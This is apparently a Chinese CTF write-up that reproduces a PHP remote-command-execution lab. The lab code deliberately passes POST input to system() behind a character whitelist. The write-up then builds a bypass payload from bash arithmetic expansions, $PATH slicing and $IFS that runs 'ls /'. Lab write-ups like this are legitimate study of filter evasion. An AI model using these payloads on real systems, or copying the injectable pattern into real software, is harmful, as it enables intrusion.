# 文章

https://blog.csdn.net/weixin_46706771/article/details/119145129

https://github.com/ProbiusOfficial/RCE-labs

# 搭建

```
<?php
//hint: flag 在根目录下，名字是一个根目录下不常见的文件名
error_reporting(0);
show_source(__FILE__);
$a = $_POST['a'];
$b = '(~SHIP}:{TAF$)';
if (strspn($a, $b) !== strlen($a)) {
   die('hacker!!!');
}
system("$a");
?>
```

Dockerfile

```
# 使用官方的 PHP 镜像作为基础镜像，基于 Apache
FROM php:7.4-apache

# 启用mod_rewrite模块，可能对某些CTF题目有用
RUN a2enmod rewrite

# 将当前目录的代码复制到容器中的 /var/www/html 目录
COPY . /var/www/html/

# 设置工作目录
WORKDIR /var/www/html

# 打开容器的80端口
EXPOSE 80

# 启动Apache服务（由镜像默认启动）
CMD ["apache2-foreground"]

```

```
进入容器执行
ls -l /bin/sh  # 查看当前指向（例如 /bin/sh -> dash）
rm /bin/sh     # 删除旧链接（谨慎操作！）
ln -s /bin/bash /bin/sh  # 让 /bin/sh 指向 bash
```

这样system可以执行环境变量切片

# 复现

```
echo ${PATH:5:1}${PATH:11:1}
```

![image-20250428104522553](https://raw.githubusercontent.com/Xioaruan912/pic/main/image-20250428104522553.png)

然后我们通过构造数字

```
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

但是这里我们有一个11 需要构造八进制的 0 1 3 实现

```
echo $((013))
```

输出11 所以我们这样构造即可

```
$(($(())$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))))
```

![image-20250428104747324](https://raw.githubusercontent.com/Xioaruan912/pic/main/image-20250428104747324.png)

最后构造整个ls / 空格使用 $IFS绕过

```
echo ${PATH:$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))))))):$((~$(($((~$(())))$((~$(())))))))}${PATH:$(($(())$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(()))))))))):$((~$(($((~$(())))$((~$(())))))))}$IFS${PATH::$((~$(($((~$(())))$((~$(())))))))}

```

![image-20250428104933433](https://raw.githubusercontent.com/Xioaruan912/pic/main/image-20250428104933433.png)

这里是后面复现 所以东西不多 挺好的一个题目